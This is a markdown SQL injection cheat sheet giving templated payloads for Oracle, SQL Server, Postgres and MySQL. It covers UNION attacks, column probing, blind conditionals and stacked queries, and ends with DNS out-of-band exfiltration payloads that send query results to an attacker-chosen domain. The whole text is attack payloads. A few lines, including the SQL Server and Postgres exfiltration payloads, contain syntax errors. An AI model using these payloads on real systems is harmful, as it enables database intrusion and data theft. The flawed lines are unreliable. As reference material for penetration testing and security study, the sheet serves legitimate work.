 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE>`
- MySql / MariaDb - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`
- FALSE -> `AND 1=2--`

## Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDb - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDb - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)`
- Microsoft / Postgres / MySql / MariaDb - `SUBSTRING('foobar', 4, 2)`

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDb - `<QUERY1>;<QUERY2>`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||<QUERY>||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDb (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`
